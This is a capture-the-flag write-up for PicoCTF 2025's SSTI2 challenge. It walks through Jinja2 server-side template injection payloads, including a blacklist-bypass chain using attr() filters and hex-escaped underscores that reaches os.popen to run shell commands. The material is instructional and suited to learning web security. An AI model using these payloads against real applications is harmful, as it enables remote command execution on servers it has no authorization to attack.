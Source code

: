 # SSTI2
This was a challenge listed in PicoCTF 2025.  It's listed as medium and categorized as a Web Exploitation challenge.

## Description
The Description reads:
> I made a cool website where you can announce whatever you want!  
> I read about input sanitization, so now I remove any kind of characters that could be a problem :)

## Hints
There are two hints for this challenge:
> Server Side Template Injection
> Why is blacklisting characters a bad idea to sanitize input?

# Solving
## My Thoughts
This was a small expansion on the SSTI challenge from before that had to do with avoiding character blacklisting on the input.  It honestly just made the last task annoyingly difficult.

## SSTI Again
Using the same injection testing method as last time, by entering {{7*'7'}} we can immediately confirm that template injection is indeed a possibility:

![Injection](https://github.com/user-attachments/assets/51d42ffb-7f5a-488e-b274-7cc81478a6a3)

Ok well lets toss in the string that worked for us last time:  
``` {{ dict.__base__.__subclasses__()[356]('cat flag',shell=True,stdout=-1).communicate()[0].strip() }} ```

![:(](https://github.com/user-attachments/assets/4b933d4e-319a-4720-b00d-3ccdc79d3a11)

Well that's not fun, what now?

## Finding Blacklisted Characters
This was the most tedious part, figuring out exactly what characters were blacklisted so we could get around it.  I started by just entering the below string to see what characters triggered problems:

``` abcdefghijklmnopqrstuvwxyz1234567890~`@#$%^&*()_-+={}[]|\:;"'<,>.?/ ```

and was given the below:

``` abcdefghijklmnopqrstuvwxyz1234567890~`@#$%^&*()-+={}|\:;"'<,>?/ ```

So the characters we are unable to user are: _, ], [, and ..  That makes things pretty difficult considering how often those characters appear in our working string.

![image](https://github.com/user-attachments/assets/1a8f9310-c72d-4859-bde7-fea669711141)

## Solution

I'm going to approach this by first dropping my payload/string and then explaining it.  This took a VERY long time to figure out so save yourself some time:

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag*')|attr('read')()}}
```

[This](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) site helped me to avoid ripping my hair out as I tried to solve this.  The command listed partway down the page worked right out of the box, I adjusted it slightly to make it work.  Now I'll try to attempt to explain what exactly it does.

This method essentially uses a very similar method to mine, except it uses the request function instead of dict.  So the non-obfuscated version would look like this:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag*').read()}}
```

Let's focus on the periods first, in jinja2 you can access the 'attributes' of a given thing by using 'attr()', you can pass in a value to pull attributes from using '|'.  By using this we can turn a string like:

```
{{request.application}}
```

into

```
{{request|attr('application')}}
```

Great! Second challeng is going to be dealing with those pesky underscores, fortunately we're dealing with python which will interpret hex data within the quotation marks and turn it back into ascii.  The hex code for an underscore is \x5f, so let's update our string with some more stuff:

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')}}
```

We then just combine those two methods until we fully transform our original string into one that'll bypass the blacklisting.  When we enter in our good string we get the below:

![Gottem](https://github.com/user-attachments/assets/843dd5ec-5301-422a-abe5-7f50ca83f173)
